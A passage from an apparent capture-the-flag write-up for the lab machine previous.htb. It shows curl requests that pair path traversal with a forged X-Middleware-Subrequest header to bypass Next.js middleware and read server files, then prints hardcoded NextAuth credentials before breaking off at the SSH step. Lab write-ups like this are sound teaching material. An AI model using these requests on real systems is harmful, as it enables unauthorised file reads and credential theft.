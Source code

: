 * Next.js production environment
    

### Next.js Application Structure Analysis

#### Route Configuration Discovery

Examining the Next.js routes manifest:

```bash
curl 'http://previous.htb/api/download?example=../../../../app/.next/routes-manifest.json' \
-H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware' -s | jq
```

**Key routes discovered:**

```json
{
  "dynamicRoutes": [
    {
      "page": "/api/auth/[...nextauth]",
      "regex": "^/api/auth/(.+?)(?:/)?$"
    }
  ]
}
```

#### Authentication Configuration Extraction

Retrieving the NextAuth.js configuration:

```bash
curl 'http://previous.htb/api/download?example=../../../../app/.next/server/pages/api/auth/%5B...nextauth%5D.js' \
-H 'X-Middleware-Subrequest: middleware:middleware:middleware:middleware:middleware'
```

**Deobfuscated JavaScript reveals credentials:**

```javascript
authorize: async e => 
  e?.username === "jeremy" && 
  e.password === (process.env.ADMIN_SECRET ?? "MyNameIsJeremyAndILovePancakes") 
  ? {id:"1", name:"Jeremy"} : null
```

**Extracted credentials:**

* **Username**: `jeremy`
    
* **Password**: `MyNameIsJeremyAndILovePancakes`
    

## Initial Access

### SSH Authentication

Using the discovered credentials:
